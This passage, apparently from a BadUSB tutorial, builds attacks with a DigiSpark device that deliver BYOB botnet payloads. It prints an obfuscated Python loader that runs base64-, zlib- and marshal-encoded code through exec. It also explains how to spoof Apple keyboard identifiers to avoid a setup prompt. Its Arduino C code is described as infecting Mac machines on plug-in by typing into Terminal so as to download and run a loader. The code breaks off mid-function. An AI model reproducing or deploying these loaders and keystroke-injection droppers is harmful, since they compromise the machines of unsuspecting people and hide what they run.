![payload_directory](/wp-content/uploads/2019/12/payload_directory.png)
**Figure 10:** `/payloads` directory hosting our malicious files.


Below is our `linux_payload.py` file generated by BYOB.  

```python
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode('eJwrtmBgYCgtyskvSM3TUM8oKSmw0tcvzkhNLdBLTixOtDI0NrYACpQkpqcWFesXJCfqFVSqa+oVpSamaGgCAFaFE3g=')))))
```


### Mac (OSX) Payload
In order to prevent the keyboard configuration dialog box from appearing when the DigiSpark is plugged into an Apple computer, we must configure the DigiSpark to appear as if it's an Apple keyboard.

VID and PID are defined in the file `~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/usbconfig.h`. We will replace the existing file with a [modified Apple version](./scripts/Digispark/usbconfig.h) when compiling the script for OSX. When we change Vendor Name and Device Name, we also have to adapt the constants for the name length.

The following code is what we've developed to infect Apple OSX machines upon plugin.  
```c
#include "DigiKeyboard.h"

/***
 *
 * This is an attack for Mac (OSX) machines. It opens up a terminal window, and executes the bash command. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 *
 ***/

#define MOD_CMD_LEFT 0x00000008

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("terminal");
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("bash");
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```